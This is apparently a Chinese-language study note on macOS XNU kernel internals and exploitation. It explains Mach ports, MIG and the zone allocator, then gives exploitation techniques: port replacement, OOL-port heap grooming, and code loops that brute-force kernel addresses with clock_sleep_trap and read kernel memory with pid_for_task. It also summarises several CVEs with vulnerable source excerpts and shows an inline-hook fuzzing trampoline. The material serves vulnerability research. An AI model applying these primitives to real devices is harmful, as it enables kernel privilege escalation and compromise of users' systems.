



# mac内核漏洞

## 一。内核组成

### 1.架构

### mach层

Mac的系统核心是XNU，xnu的最底层是mach层，

Mach层的工作

1. 进程和线程管理，每一个应用程序可以拥有一个或者多个port，port拥有相应的权限来进行控制。
2. 虚拟内存的分配和管理 
3.  CPU 等物理设备的分配和调度 
4.  异常：Mach 在已有的消息传递机制上实现了一种异常处理机制，通过kmsg传递异常信息。

 

 

### Freebsd层 

BSD的实现在Mach的上层，这一层提供了的API，中断。

bsd层的工作

1. UNIX进程模型
2. POSIX线程模型即pthread。以及相关的同步功能。
3. UNIX的用户与组管理	
4. 网络栈(BSD Socket API)
5. 文件系统
6. 设备系统

 

Libkern和IOKit

  驱动和内核api



## 2.mig


 MIG是Mach的接口生成器，它在原始Mach消息IPC之上提供了一个简单的RPC（远程过程调用）层。所有Mach内核服务和许多用户空间服务都使用MIG。


MIG接口在.defs 文件中声明。它们使用一种简单的接口定义语言，该语言可以定义函数原型和简单的数据结构。MIG工具将.defs 编译为C代码，该代码实现所有必需的参数序列化/反序列化。


调用MIG RPC是完全透明的，就像调用常规C函数一样。

## 3.mach port

类似于网络的port，在内核中传递消息。

在应用层中port是一个索引数字，在内核中，是一个存着索引port的地址。



  Right是port的权限控制。权限定义如下，每一个端口有自己的权限设置

```
 #define MACH_PORT_RIGHT_SEND   ((mach_port_right_t) 0)
 #define MACH_PORT_RIGHT_RECEIVE  ((mach_port_right_t) 1)
 #define MACH_PORT_RIGHT_SEND_ONCE ((mach_port_right_t) 2)
 #define MACH_PORT_RIGHT_PORT_SET ((mach_port_right_t) 3)
 #define MACH_PORT_RIGHT_DEAD_NAME ((mach_port_right_t) 4)
 #define MACH_PORT_RIGHT_NUMBER  ((mach_port_right_t) 5)
```


### Struct

每个task结构有自己的space，space里面存着table


 


table里的每个entry指向port





###   reference

reference是ipcport里面的引用计数，user_reference，表示了某个entry在多少个space中使用，和entry实际指向哪个port没有关系。

当user_reference为1的时候通过将entry插入freelist中来备用，同时也不会释放这个entry。

但是port引用为0会释放port。

iOS 10.3以后增加了对kernel task port的保护，不过该保护仅仅比较port指向的task是否等于kernel task。


4.mach message

Mach Messages分两种Simple Messages和Complex Messages

对于复杂消息，多了四种格式的数据


| **type**                         | **用途**                        |
| -------------------------------- | ------------------------------- |
| MACH_MSG_PORT_DESCRIPTOR         | 传递一个端口权限                |
| MACH_MSG_OOL_DESCRIPTOR          | 传递out-of-line数据             |
| MACH_MSG_OOL_PORTS_DESCRIPTOR    | 传递out-of-line端口             |
| MACH_MSG_OOL_VOLATILE_DESCRIPTOR | 传递有可能变化的out-of-line数据 |

#### mach msg在内核被封装为ipc_kmsg进行发送，通过mach_msg调用中断到内核。


​	struct ipc_kmsg {

​	  mach_msg_size_t ikm_size;

​	  struct ipc_kmsg * ikm_next;

​	  struct ipc_kmsg * ikm_prev;

​	  mach_msg_header_t * ikm_header;

​	  ipc_port_t ikm_prealloc;

​	  ipc_port_t ikm_voucher;

​	  mach_msg_priority_t ikm_qos;

​	  mach_msg_priority_t ikm_qos_override

​	  struct ipc_importance_elem * ikm_importance;

​	  queue_chain_t ikm_inheritance;

​	};


### 4.zone

堆的管理结构，每个zone对应自己的一部分内存，也就是说task zone里面全是task，ipc里面全是ipc不会全放在一起。

##### 最新free的机制

##### 1.freelist随机化。

新分配内存时，每次添加内存进入free_elements的顺序已经不是线性地从一页的开始到结束。而是随机的决定，是添加当前的第一个元素还是当前的最后一个元素。（ios9.2开始）

##### 2.beebdeff填满

 会将释放的堆块用beebdeff填满，防止doublefree

##### 3.ncookie与pcookie

在堆块结尾添加cookie与指针运算后的校验

（释放过与没释放的不同）

小堆快采用page，zone里面有指向page的结构

Page双向链表有unlinksafe校验

另外free_element放在page里面了，为了能防止泄漏，变成相对偏移。 Pape之间双向链表

指向"freelist"的指针，改为用一个`freelist_offset`表示第一个free元素相对于当前内存页的偏移位置。

4.gc

本来mach_zone_force_gc可以控制gc回收，但是apple为了恶心人，删了它，于是只能通过大量申请来控制gc了。

## 二。利用方法

### mach port端口替换

首先申请一个端口，refer=1，right=1

​	申请stash_prot，refer=2,right=2

​	申请dp，refer=3，right=3

​	释放send right后refer=3，right=2

​	触发漏洞，refer=1，right=0

​	通过验证right是否为0，也就是是否返回notify，从而判断条件竞争是否成功。

​	再释放stash触发野指针。

​	等待端口重用。


### 通过ool ports 构造fake port

#### OOL Port 风水

Port 风水的步骤简要说明如下：

​	创建大量端口

​	消息生成（发送，接收）

​	创建一些用作地址的虚拟端口（MACH_PORT_DEAD）

​	发送消息

​	接收消息

​	重新发送消息


#### 利用

​	申请大量ool port

​	利用漏洞

​	查找被更改的ool port

​	clock_sleep_trap猜测内核地址

```
for(uint64_t guess_clock_addr = 0xffffff8000200000; guess_clock_addr < 0xffffff80F0200000; guess_clock_addr++){
        *(uint64_t *)(fake_port + TASK_GAP_IN_IPC_OBJ) = guess_clock_addr; // Traverse address
        *(uint64_t *)(fake_port + 0xa0) = 0xff;
        if(clock_sleep_trap(manipulated_port, 0, 0, 0, 0) == KERN_SUCCESS){
            printf("[+] found clock_list addr : %llxn", guess_clock_addr);
            return (guess_clock_addr);
        }
   }
```

通过pid_for_task获取内核内容，利用ftp0

```
  for(uint64_t current_addr = clock_list_addr; current_addr > 0xffffff8000200000; current_addr-=0x4000) {
        int32_t kernel_data = 0;
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = current_addr - 0x10;
        pid_for_task(manipulated_port, &kernel_data);
        if (kernel_data == 0xfeedfacf) {
            printf("[+] Found kernel_text addr : %llxn", current_addr);
            return current_addr;
        }
    }
```


### 通过更改指针结构体构造ROP

通过uaf或者double释放包含vtable的结构体

然后构造rop


### 绕过pac利用ftp0

通过double free 让内存被释放到zone里，通过gc回收 将voucherport伪造为osstring的内存

voucherport一个指针指向port

通过读取osstring得到port地址 让recviveport在port附近，然后修改voucherport指针地址为fakeport地址（这里暴力猜测的），通过控制fakeport和receiveport泄漏kslide。

然后通过pid_for_task和d可读端口来进行任意地址读

通过remap可以把内核地址与用户地址映射，从而避免每次都要去内核修改。


## 三。收集的漏洞

### 1.ipv6连接处理错误

```
void
in6_pcbdetach(struct inpcb *inp)
{
    // ...
	if (!(so->so_flags & SOF_PCBCLEARING)) {
		struct ip_moptions *imo;
		struct ip6_moptions *im6o;

		inp->inp_vflag = 0;
		if (inp->in6p_options != NULL) {
			m_freem(inp->in6p_options);
			inp->in6p_options = NULL; // <- good
		}
		ip6_freepcbopts(inp->in6p_outputopts); // <- bad
		ROUTE_RELEASE(&inp->in6p_route);
		// free IPv4 related resources in case of mapped addr
		if (inp->inp_options != NULL) {
			(void) m_free(inp->inp_options); // <- good
			inp->inp_options = NULL;
		}
```

  可以看到中间释放ip6_freepcbopts后没有清空指针，ip6_freepcbopts也不知道指针存储地址，所以实际并没有清空，造成的uaf。

### 2.mig处理不当

mig中存在如下代码。

```
       (mach_msg_header_t *InHeadP, mach_msg_header_t *OutHeadP)
{
...
   kern_return_t RetCode;
   task_t task;
   ipc_voucher_t new_voucher;
   ipc_voucher_t old_voucher;
...
   task = convert_port_to_task(In0P->Head.msgh_request_port);

   new_voucher = convert_port_to_voucher(In0P->new_voucher.name);

   old_voucher = convert_port_to_voucher(In0P->old_voucher.name);

   RetCode = task_swap_mach_voucher(task, new_voucher, &old_voucher);

   ipc_voucher_release(new_voucher);//减一

   task_deallocate(task);

   if (RetCode != KERN_SUCCESS) {
       MIG_RETURN_ERROR(OutP, RetCode);
   }
...
   if (IP_VALID((ipc_port_t)In0P->old_voucher.name))
       ipc_port_release_send((ipc_port_t)In0P->old_voucher.name);

   if (IP_VALID((ipc_port_t)In0P->new_voucher.name))
       ipc_port_release_send((ipc_port_t)In0P->new_voucher.name);
...
   OutP->old_voucher.name = (mach_port_t)convert_voucher_to_port(old_voucher);//减一

   OutP->Head.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
   OutP->Head.msgh_size = (mach_msg_size_t)(sizeof(Reply));
   OutP->msgh_body.msgh_descriptor_count = 1;
}
```

```
kern_return_t
task_swap_mach_voucher(
       task_t          task,
       ipc_voucher_t   new_voucher,
       ipc_voucher_t   *in_out_old_voucher)
{
   if (TASK_NULL == task)
       return KERN_INVALID_TASK;

   *in_out_old_voucher = new_voucher;
   return KERN_SUCCESS;
}
```

task_swap_mach_voucher函数将新的端口覆盖旧的，但是不是更改引用而是直接把指针的地址更改了，从而造成新端口实际被释放了两次，从而double free。

### 3.reference处理不当

#### CVE-2016-7644

```

kern_return_t
  set_dp_control_port(
    host_priv_t host_priv,
    ipc_port_t  control_port) 
  {
          if (host_priv == HOST_PRIV_NULL)
                  return (KERN_INVALID_HOST);

    if (IP_VALID(dynamic_pager_control_port))
      ipc_port_release_send(dynamic_pager_control_port); <--竞争发生的地方

    dynamic_pager_control_port = control_port;
    return KERN_SUCCESS;
  }
  
```

多释放了一次所以存在uaf

```
//申请port
mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &p);
//在ipc系统中隐藏一个port的reference
stash_port (p) ;
//dynamic_pager_control_port获取一个port的reference
set_dp_control_port(host_priv, p) ;
// [1] 准备阶段结束
//释放task对port的send right
mach_port_deallocate (p);
//触发漏洞
race();
//释放stash_port
free_stashed_ports();
// [2] 获取port的野指针
```

​	首先申请一个端口，refer=1，right=1

​	申请stash_prot，refer=2,right=2

​	申请dp，refer=3，right=3

​	释放send right后refer=3，right=2

​	触发漏洞，refer=1，right=0

​	通过验证right是否为0，也就是是否返回notify，从而判断条件竞争是否成功。

​	再释放stash触发野指针。

​	等待端口重用。


### 4.系统调用错误

### CVE-2017-2370

bsd层系统调用使用数据错误

中断把size的地址当作了size的内容，从而导致长度溢出。

#### 利用1：

1.首先因为内核使用了许久，所以先通过ool消息申请大量chunk让地址连续

 为了能在同一个zone里面，所以大小要和利用的消息一样大

2.然后为了能够利用连续的地址，释放中间的一部分。

 没必要一定全释放掉，但是少了可能被系统抢占。 3.申请一半作为消息（可省） 4.申请新的一个内存作为利用 5.找到这个端口

6.mach_voucher_extract_attr_recipe_args 堆溢出

 申请massage在堆上

 第一个指针address指向port指针的数组。

 更改他指向用户态

7.设置虚假的port和task 然后调用clock_sleep_trap猜测地址

8.然后调用pid_for_task获取内存内容猜测内核地址

9.然后调用pid_for_task 指向allproc 里面存着的所有进程信息

allproc指向proc的pid pid_for_task获取程序pid 然后proc-0x10是下一个的指针

10.然后用kerneltask里面的数据调用task_get_speacial_pot来提升端口权限，然后调用 mach_vm_read_overwrite mach_vm_write 读写任意内存

利用2：


通过更改 kmsg的size来进行信息泄漏

传递一个exception_mask 的EXC_MASK_ALL，EXCEPTION_STATE 的行为和ARM_THREAD_STATE64 为new_flavor 意味着内核将发送exception_raise_state 消息，我们指定每当指定线程错误的异常端口。该消息将包含所有ARM64通用目标寄存器的状态，这就是我们将用于从ipc_kmsg 缓冲区末尾写入受控数据的内容！

### 5.数据包处理错误

#### CVE-2018-4407

​	错误产生于icmp代码模块中（bsd/netinet/ip_icmp.c:339）

```
m_copydata(n, 0, icmplen, (caddr_t)&icp->icmp_ip);
这里网上的分析全搞错了，其实错的不是这里，实际上错的地方是下面的代码。
作者后来也澄清了这个问题 https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407
* header.
*/
icmplen = min(icmplen, M_TRAILINGSPACE(m) -
sizeof(struct ip) - ICMP_MINLEN);
m_align(m, ICMP_MINLEN + icmplen);
m->m_len = ICMP_MINLEN + icmplen; /* for ICMP header and data */

icp = mtod(m, struct icmp *);
icmpstat.icps_outhist[type]++;
icp->icmp_type = type;
if (type == ICMP_REDIRECT)

icp = mtod(m, struct icmp *);函数里面因为长度大于80，所以成了一个负数，导致程序崩溃，这样的话，这个程序
应该是无法利用的，因为变成了一个狙击的问题，但是没有信息泄漏，只能让他崩溃。
```


### 6.地址混用

#### cuck00

```
IOReturn IOUserClient::_sendAsyncResult64(OSAsyncReference64 reference, IOReturn result, io_user_reference_t args[], UInt32 numArgs, IOOptionBits options)
{
    struct ReplyMsg
    {
        mach_msg_header_t msgHdr;
        union
        {
            struct
            {
                OSNotificationHeader notifyHdr;
                IOAsyncCompletionContent asyncContent;
                uint32_t args[kMaxAsyncArgs];
            } msg32;
            struct
            {
                OSNotificationHeader64 notifyHdr;
                IOAsyncCompletionContent asyncContent;
                io_user_reference_t args[kMaxAsyncArgs] __attribute__ ((packed));
            } msg64;
        } m;
    };
    ReplyMsg replyMsg;
    mach_port_t replyPort;
    kern_return_t kr;

    // If no reply port, do nothing.
    replyPort = (mach_port_t)(reference[0] & ~kIOUCAsync0Flags);
    if(replyPort == MACH_PORT_NULL)
        return kIOReturnSuccess;
    if(numArgs > kMaxAsyncArgs)
        return kIOReturnMessageTooLarge;
    bzero(&replyMsg, sizeof(replyMsg));
    replyMsg.msgHdr.msgh_bits        = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND /*remote*/, 0 /*local*/);
    replyMsg.msgHdr.msgh_remote_port = replyPort;
    replyMsg.msgHdr.msgh_local_port  = 0;
    replyMsg.msgHdr.msgh_id          = kOSNotificationMessageID;
    if(kIOUCAsync64Flag & reference[0])
    {
        replyMsg.msgHdr.msgh_size = sizeof(replyMsg.msgHdr) + sizeof(replyMsg.m.msg64) - (kMaxAsyncArgs - numArgs) * sizeof(io_user_reference_t);
        replyMsg.m.msg64.notifyHdr.size = sizeof(IOAsyncCompletionContent) + numArgs * sizeof(io_user_reference_t);
        replyMsg.m.msg64.notifyHdr.type = kIOAsyncCompletionNotificationType;
        bcopy(reference, replyMsg.m.msg64.notifyHdr.reference, sizeof(OSAsyncReference64));

        replyMsg.m.msg64.asyncContent.result = result;
        if(numArgs)
            bcopy(args, replyMsg.m.msg64.args, numArgs * sizeof(io_user_reference_t));
    }
    else
    {
        unsigned int idx;

        replyMsg.msgHdr.msgh_size = sizeof(replyMsg.msgHdr) + sizeof(replyMsg.m.msg32) - (kMaxAsyncArgs - numArgs) * sizeof(uint32_t);

        replyMsg.m.msg32.notifyHdr.size = sizeof(IOAsyncCompletionContent) + numArgs * sizeof(uint32_t);
        replyMsg.m.msg32.notifyHdr.type = kIOAsyncCompletionNotificationType;
        for(idx = 0; idx < kOSAsyncRefCount; idx++)
            replyMsg.m.msg32.notifyHdr.reference[idx] = REF32(reference[idx]);
        replyMsg.m.msg32.asyncContent.result = result;
        for(idx = 0; idx < numArgs; idx++)
            replyMsg.m.msg32.args[idx] = REF32(args[idx]);
    }
    if((options & kIOUserNotifyOptionCanDrop) != 0)
    {
        kr = mach_msg_send_from_kernel_with_options(&replyMsg.msgHdr, replyMsg.msgHdr.msgh_size, MACH_SEND_TIMEOUT, MACH_MSG_TIMEOUT_NONE);
    }
    else
    {
        /* Fail on full queue. */
        kr = mach_msg_send_from_kernel_proper(&replyMsg.msgHdr, replyMsg.msgHdr.msgh_size);
    }
    if((KERN_SUCCESS != kr) && (MACH_SEND_TIMED_OUT != kr) && !(kIOUCAsyncErrorLoggedFlag & reference[0]))
    {
        reference[0] |= kIOUCAsyncErrorLoggedFlag;
        IOLog("%s: mach_msg_send_from_kernel_proper(0x%x)\n", __PRETTY_FUNCTION__, kr);
    }
    return kr;
}
```

iouserclient.cpp里面的_sendAsyncResult64回调函数会把内核地址直接拷贝到用户态，从而信息泄露。

```
 bcopy(reference, replyMsg.m.msg64.notifyHdr.reference, sizeof(OSAsyncReference64));
```

 

## 四。fuzz

本框架基于内核模式中的被动 inline hook机制，主要用于fuzzing OSX内核漏洞。

通过内联hook来对驱动入口进行更改

 

```
char trampoline[12] = "\x48\xB8\x00\x00\x00\x00\x00\x00\x00\x00" // mov rax, address
    "\xFF\xE0"; // jmp rax
```

通过rax进行跳转


```
* thread #1: tid = 0x0001, 0xffffff7f8ba5ff02 pasive_kernel_fuzz`install_trampoline_any(patch_addr=18446743524117703248, dest_address=18446743522001688720, orig_bytes=0xffffff800e9aba80) + 34 at hijacking_utils.c:271, stop reason = breakpoint 1.1
    frame #0: 0xffffff7f8ba5ff02 pasive_kernel_fuzz`install_trampoline_any(patch_addr=18446743524117703248, dest_address=18446743522001688720, orig_bytes=0xffffff800e9aba80) + 34 at hijacking_utils.c:271
   268 	kern_return_t
   269 	install_trampoline_any(mach_vm_address_t patch_addr, mach_vm_address_t dest_address, void *orig_bytes)
   270 	{
-> 271 	    char trampoline[12] = "\x48\xB8\x00\x00\x00\x00\x00\x00\x00\x00" // mov rax, address
   272 	    "\xFF\xE0"; // jmp rax
   273
   274 	    //mach_vm_address_t patch_addr = solve_kernel_symbol(&g_kernel_info, symbol);
```

通过更改要hook的地址的指令来进行模糊

